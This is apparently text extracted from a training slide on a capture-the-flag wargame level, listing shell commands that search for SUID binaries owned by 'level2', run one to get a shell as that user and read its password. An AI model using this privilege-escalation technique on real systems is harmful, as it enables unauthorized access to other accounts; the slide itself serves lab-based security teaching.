

Level1 / level1

ls-l

cat hint

find / -user level2 -perm -4000 2> /dev/null

/bin/ExcuteMe

/bin/sh

whoami

my-pass